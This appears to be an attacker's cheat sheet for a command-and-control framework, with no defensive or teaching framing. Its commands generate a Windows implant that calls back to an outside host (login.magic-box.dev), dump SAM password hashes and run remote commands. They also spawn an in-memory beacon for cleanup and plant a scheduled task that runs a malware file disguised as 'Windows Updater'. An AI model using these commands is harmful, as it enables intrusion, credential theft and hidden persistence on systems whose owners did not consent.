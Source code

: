 ## Beacons/Sessions
* generate a session w/ 443 or 80 as a fallback `generate --mtls login.magic-box.dev:443,login.magic-box.dev:80,login.magic-box.dev:21 --os windows --arch amd64`

# PostEx
* hashdump - dump sam hashes
* sa-whoami - current user and privs
* `execute -o cmd /c "command"` - runs a command and captures output
* remote-shspawnas - spins off another beacon in memory so you can clean up

## Sharpersist
* sharpersist -- -t schtask -c "C:\Windows\Tasks\malwarefile.exe" -n "Windows Updater" -m add